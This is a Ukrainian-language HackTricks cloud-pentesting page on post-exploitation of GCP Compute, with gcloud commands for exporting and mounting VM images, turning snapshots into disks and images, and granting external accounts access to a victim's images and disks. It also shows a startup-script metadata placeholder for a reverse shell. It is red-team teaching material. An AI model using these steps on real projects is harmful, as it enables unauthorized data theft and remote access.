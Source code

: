 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережі) перегляньте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та перевірка зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих зображеннях** або **створити нові зображення працюючих ВМ** та отримати доступ до їхніх даних без доступу до працюючої ВМ.

Можливо експортувати зображення ВМ у бакет, а потім завантажити його та змонтувати локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Для виконання цієї дії зловмиснику можуть знадобитися привілеї над сховищем та, безумовно, **привілеї над cloudbuild**, оскільки це **сервіс**, який буде запитано для виконання експорту\
Більше того, для цього кодування SA та SA обчислень потрібні привілейовані дозволи.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потрібні:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потрібні:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та перевірка знімків та дисків локально

Неможливо безпосередньо експортувати знімки та диски, але можливо **перетворити знімок у диск, диск в образ** і, слідуючи **попередньому розділу**, експортувати цей образ для перевірки його локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Інспекція образу, створюючи VM

З метою доступу до **даних, збережених в образі** або всередині **працюючої VM**, з якої зловмисник **створив образ,** можливо надати зовнішньому обліковому запису доступ до образу:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створити нову VM з цього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до вашого зовнішнього облікового запису через образ, ви могли б запустити VM, використовуючи цей образ у проекті жертви, і **змусити метадані виконати зворотне з'єднання** для доступу до образу, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

З метою доступу до **даних, збережених на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надайте доступ до знімка або створіть диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляра:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Монтуйте диск всередині VM:

1.  **SSH до VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Визначте диск**: Після входу до VM визначте новий диск, перерахувавши дискові пристрої. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3. **Форматування та монтування диска** (якщо це новий або сирий диск):
*   Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Замонтуйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам, можливо, потрібно буде **виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск**.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
